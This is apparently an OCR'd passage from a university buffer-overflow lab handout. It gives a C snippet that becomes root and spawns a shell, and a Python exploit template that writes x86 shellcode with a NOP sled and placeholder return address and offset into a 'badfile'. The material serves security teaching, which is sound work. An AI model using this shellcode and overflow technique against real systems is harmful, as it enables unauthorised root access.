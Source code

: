 
you can run the following program to turn the real user id toroot. This way, you will have a realroot
process, which is more powerful.

```
void main()
{
setuid(0); system("/bin/sh");
}
```

Python Version. For students who are more familiar with Python than C, we have provided a Python
version of the above C code. The program is calledexploit.py, which can be downloaded from the
lab’s website. Students need to replace some of the values in the code with the correct ones.

```
#!/usr/bin/python

import sys

shellcode= (
"\x31\xc0" # xorl %eax,%eax
"\x50" # pushl %eax
"\x68""//sh" # pushl $0x68732f2f
"\x68""/bin" # pushl $0x6e69622f
"\x89\xe3" # movl %esp,%ebx
"\x50" # pushl %eax
"\x53" # pushl %ebx
"\x89\xe1" # movl %esp,%ecx
"\x99" # cdq
"\xb0\x0b" # movb $0x0b,%al
"\xcd\x80" # int $0x
"\x00"
).encode(’latin-1’)

# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))

# Put the shellcode at the end
start = 517 - len(shellcode)
content[start:] = shellcode

#########################################################################
ret = 0xAABBCcDD # replace 0xAABBCCDD with the correct value
offset = 0 # replace 0 with the correct value

# Fill the return address field with the address of the shellcode
content[offset:offset + 4] = (ret).to_bytes(4,byteorder=’little’)
#########################################################################

# Write the content to badfile
with open(’badfile’, ’wb’) as f:
f.write(content)
```
